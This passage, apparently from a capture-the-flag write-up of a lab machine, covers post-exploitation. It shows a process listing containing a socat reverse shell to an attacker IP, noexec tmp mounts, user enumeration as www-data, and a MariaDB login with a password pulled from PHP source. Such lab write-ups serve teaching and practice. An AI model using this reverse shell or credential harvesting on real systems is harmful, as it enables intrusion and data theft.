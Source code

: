 

    guly@unattended:/boot$ ps awuxx
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    guly       825  0.0  0.0   4288   764 ?        S    01:32   0:00 sh -c socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10
    guly       826  0.0  0.1  30880  3376 ?        S    01:32   0:01 socat exec:bash -li,pty,stderr,setsid,sigint,sane tcp:10.10.14.8:44
    guly       827  0.0  0.1  20208  3900 pts/1    Ss   01:32   0:00 bash -li
    guly     10904  0.0  0.1  38308  3308 pts/1    R+   15:46   0:00 ps awuxx



It also makes `pspy` relatively useless as well.

#### tmp noexec

The `mount` command also shows that most of the places I like to run
scripts from are mounted with `noexec`:



    guly@unattended:/boot$ mount | grep -e "tmp " -e shm
    tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev,noexec)
    tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
    tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)



### Enumeration

As www-data, I can see the only homedir, guly, but I can't access it:



    www-data@unattended:/home$ ls
    guly
    www-data@unattended:/home$ cd guly/
    bash: cd: guly/: Permission denied



Eventually, I decided to take a look at what was in the database, now
that I could access it more easily. The credentials were in the php
source so I can connect with `mysql`:



    www-data@unattended:/home$ mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 41
    Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [(none)]>



The interesting database was neddy. I'll check out the tables again:
